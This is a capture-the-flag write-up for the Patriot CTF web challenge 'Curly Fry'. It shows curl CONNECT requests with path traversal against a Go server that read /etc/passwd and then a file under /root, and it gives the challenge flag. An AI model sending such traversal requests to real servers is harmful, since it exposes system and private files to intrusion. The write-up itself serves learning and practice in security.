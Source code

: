 # Patriot CTF

## Web

### Curly Fry

**Difficulty:** Easy

**Statement:** Who needs Flask when you have Golang -- the new meta for web applications.

Take a look at this super sleek and functional website.

***

Upon connecting to this URL, we come across the **index.hmtl** page with the following source code:

```html
<html>
  <head>
    <title>Curly Fry</title>
  </head>
  <body>
    <h2>I will release my secret curly fry recipe when I am ready. For now it is safely held in my /root directory</h2>
  </body>
</html>
```

One suspects that one must access a file in the **/root** directory.

There is an exploit that allows to access unauthorized resources with a CONNECT request on web servers in Golang.

I first try to access the file **/etc/passwd** via curl : 

```
curl --path-as-is -X CONNECT chal2.pctf.competitivecyber.club:49515/../../..
/etc/passwd
```

Via the request, I can access the desired file:

![image](https://user-images.githubusercontent.com/49941629/166076146-30bb3dff-12a2-4c41-b867-73f19eb2b62b.png)

However, it is impossible to execute a command to list the contents of the /root directory.

After rereading the HTML source code, I discover the existence of the recipe.txt file. 

So I run my curl command again with the full path and I get the content: 

```
curl --path-as-is -X CONNECT chal2.pctf.competitivecyber.club:49515/../../../root/recipe.txt
```

![image](https://user-images.githubusercontent.com/49941629/166076128-1acaa89b-ad4e-4c55-900e-5062165d01f0.png)

Flag: PCTF{tru5t_m3_im_4_ch3f}
